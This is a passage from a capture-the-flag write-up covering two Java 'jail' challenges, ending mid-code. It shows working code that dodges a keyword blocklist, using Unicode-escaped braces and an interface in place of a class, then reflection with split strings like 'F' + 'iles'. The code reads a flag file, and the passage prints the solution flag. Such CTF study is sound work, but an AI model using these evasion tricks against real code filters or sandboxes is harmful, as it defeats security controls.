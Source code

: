 Writing Java without `import`, `class`, `Main` and curly braces seems impossible, but we can tackle them one by one.

- `import`: we can remove `import` by calling fullname.
- `class`, `Main`: we can implement an interface named whatever instead of a class named `Main`.
- curly braces: we can substitude them with unicode escape chars: \{ -> \\u007b; \} -> \\u007d.

#### Final solution

So here's my new code that meet the requirements:
```java
public interface ReadFile \u007b
    public static void main(String[] args) throws java.io.IOException \u007b
        String filePath = "flag.txt";
        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.FileReader(filePath));
        String line;
        System.out.println(reader.readLine());
        reader.close();
    \u007d
\u007d
```

#### Flag: amateursCTF{yeah_this_looks_like_a_good_feature_to_me!}

### 2.3. jail/javajail2

#### Difficulty: medium

#### Analysis
This one ban all the class name possible to read files.

I thought of getting Java class through string, that way, we can split "Files" into "F" + "iles", and we can read file normally.

And that exact concept is available in Java: it's called relfection.

The fact that the author doesn't ban `class` like previous challenge may give some hint to that `reflection`.

Other things:

- Replace `String[]` with `String...`
- Replace `throws` in function definition by `try ... catch ...`
- Split `flag.txt` into `"flag" + ".txt"`

#### Final solution
Here's the complete code:
```java
public class Main {
    public static void main(String... args) {
        try {
            String something = "java.nio.file.F" + "iles";
            Class<?> myClass = Class.forName(something);
            java.lang.reflect.Method method;
            try {
                method = myClass.getMethod("readString", java.nio.file.Path.class);
                String filePath = "flag";
                filePath = filePath.concat(".txt");
                try {
                    Object text = method.invoke(null, java.nio.file.Paths.get(filePath));
                    System.out.println(text);
                } catch (java.lang.IllegalAccessException e) {}
                catch (java.lang.reflect.InvocationTargetException e1) {}
            }
            catch (SecurityException e) {}
```
